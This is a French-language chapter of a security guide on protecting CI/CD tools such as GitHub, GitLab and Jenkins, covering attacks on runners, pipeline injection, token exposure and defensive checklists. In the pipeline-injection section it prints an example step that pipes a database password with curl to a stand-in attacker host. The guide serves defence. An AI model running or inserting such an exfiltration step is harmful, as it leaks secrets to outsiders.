

# **10.6 — Protection de l’outil CI/CD lui-même (GitHub, GitLab, Jenkins)**

Les pipelines CI/CD sont devenus une cible privilégiée pour les attaquants.
Pourquoi ?

Parce que votre CI/CD possède souvent **plus de privilèges que n’importe quel développeur**, par exemple :

* accès aux dépôts privés,
* déploiement automatique en production,
* secrets de toute l’infrastructure,
* permissions d’écriture sur tous les environnements,
* accès à vos images Docker et registries,
* exécution de scripts avec droits élevés.

**Si un attaquant compromet votre CI/CD, il compromet toute votre entreprise.**

Ce chapitre explique :

* les risques,
* les attaques classiques,
* les protections indispensables,
* les bonnes pratiques pour GitHub, GitLab, Jenkins,
* et pourquoi la CI/CD doit être sécurisée aussi sérieusement qu’un serveur de production.

---

# **10.6.1 — Pourquoi la CI/CD est une cible à haute valeur ?**

Parce qu'elle contient :

### ✔ des secrets

(clés API, tokens cloud, clés SSH)

### ✔ la capacité de modifier le code

(un attaquant peut injecter du malware ou un backdoor)

### ✔ la capacité de déployer directement

(un attaquant peut pousser un ransomware dans l’image de prod)

### ✔ les permissions d’accès à presque tout

(dépôts Git, registres, environnements cloud)

### ✔ une machine exécutant des scripts non contrôlés

(très facile à abuser si compromis)

---

# **10.6.2 — Attaques typiques contre une CI/CD**

## **1) Compromission du runner**

Un attaquant obtient accès à la machine exécutant les jobs :

* installation de malware
* extraction des secrets
* modification du pipeline
* exécution de commandes non autorisées

---

## **2) Injection dans un pipeline**

Exemple : un attaquant modifie un `.gitlab-ci.yml` ou `.github/workflows/main.yml`:

```
steps:
  - name: Steal secrets
    run: echo $DB_PASSWORD | curl https://evil.com
```

→ fuite immédiate des secrets.

---

## **3) Attaque supply-chain**

Un attaquant insère une backdoor dans :

* une dépendance,
* une image Docker,
* un plugin de pipeline.

Très difficile à détecter sans outils.

---

## **4) Exposition d’un token CI/CD**

Un token GitHub Actions ou GitLab CI exposé permet :

* push de code malveillant
* lecture et écriture dans les repos
* création de pipelines frauduleux
* exfiltration des secrets

---

## **5) Pipeline déclenché depuis un fork ou PR malveillante**

Cas fréquent sur GitHub :

* un attaquant crée une PR
* la CI s’exécute automatiquement
* la PR contient du code qui imprime les secrets

---

# **10.6.3 — Schéma : zones à protéger dans une CI/CD**



Tous ces éléments constituent des cibles critiques.

---

# **10.6.4 — Protéger l’accès aux comptes CI/CD**

### ✔ Activer obligatoirement le MFA (2FA)

> 90% des attaques sur GitHub proviennent de comptes sans MFA.

### ✔ Désactiver les comptes inactifs

### ✔ Roles séparés : admin ≠ développeur

### ✔ Interdire l’accès admin aux stagiaires / externes

### ✔ Utiliser SSO entreprise si possible

---

# **10.6.5 — Protéger les secrets du pipeline**

### ✔ Secrets toujours chiffrés

### ✔ Secrets jamais disponibles dans les forks

### ✔ Secrets masqués dans les logs

### ✔ Rotations régulières

### ✔ Pas de secrets utilisés dans des pipelines publics

### ✔ Limiter les secrets disponibles par job :

Exemple :
Le job de build **n’a pas besoin** de la clé AWS de production.

---

# **10.6.6 — Sécurisation des runners (GitHub, GitLab, Jenkins)**

Les runners sont la zone de plus grand danger.

### ✔ Préférer des runners éphémères

* détruits après un job
* empêchent persistance d’un malware

### ✔ Ne pas utiliser des runners publics pour des applications sensibles

Les runners partagés peuvent être compromis.

### ✔ Isolation stricte

* conteneurisation
* sandbox
* restrictions réseau

### ✔ Pas de privilèges élevés inutiles

Un job n’a pas besoin d’être root dans 99% des cas.

---

# **10.6.7 — Limiter les pipelines déclenchés automatiquement**

### ✔ GitHub : désactiver l'exécution automatique pour les PR externes

Sinon un attaquant peut récupérer vos secrets.

### ✔ GitLab : activer les “protected branches” et “protected variables”

Empêche un fork malveillant d’accéder aux secrets.

### ✔ Jenkins : filtrer les jobs par utilisateur et rôle

---

# **10.6.8 — Vérification de l’intégrité des pipelines**

### ✔ Signature des pipelines (GitHub OIDC)

Vérifie qu’un pipeline :

* vient bien de GitHub
* n’est pas altéré
* est exécuté dans les bonnes conditions

### ✔ Audit logs obligatoires

Chaque modification du pipeline doit être visible.

### ✔ Immutabilité des jobs critiques

Un pipeline de déploiement **ne doit pas être modifiable** par un développeur junior.

---

# **10.6.9 — Sécurisation des dépendances du pipeline**

Les pipelines utilisent :

* des plugins
* des actions GitHub
* des images Docker
* des scripts tiers

### Chaque dépendance est un risque supply-chain.

### Bonnes pratiques :

* utiliser des versions **pinnées** (pas `latest`)
* vérifier l’auteur des actions GitHub
* utiliser uniquement des plugins “verified”
* scanner les images Docker utilisées dans les runners
* vérifier régulièrement les CVE associées aux outils de build

---

# **10.6.10 — Exemple concret d’attaque CI/CD**

Un attaquant :

1. Trouve un token d’un développeur sur GitHub
2. Modifie un pipeline : ajoute une commande d’exfiltration
3. Le pipeline tourne automatiquement
4. Tous les secrets de production sont envoyés à l’attaquant
5. L’attaquant déploie une version modifiée de l’API
6. Les données des utilisateurs sont exfiltrées

→ Incident majeur sans jamais toucher directement l’API.

---

# **10.6.11 — Checklist de sécurité CI/CD**

### ✔ Comptes protégés (MFA obligatoire)

### ✔ Secrets chiffrés

### ✔ Pas de secrets pour les PR externes

### ✔ Runners éphémères

### ✔ Pas de permissions root

### ✔ Pipelines immuables pour la prod

### ✔ Logs d’audit activés

### ✔ Signature des builds

### ✔ Scans réguliers des dépendances

### ✔ Revue obligatoire des modifications des pipelines

---

# **10.6.12 — Résumé du sous-chapitre**

Sécuriser l’outil CI/CD revient à protéger :

* les secrets,
* les runners,
* les pipelines,
* les comptes utilisateurs.

Une compromission CI/CD est :

* totale,
* silencieuse,
* difficile à détecter,
* souvent catastrophique.

La sécurisation doit être équivalente à celle d’un serveur de production, voire supérieure.
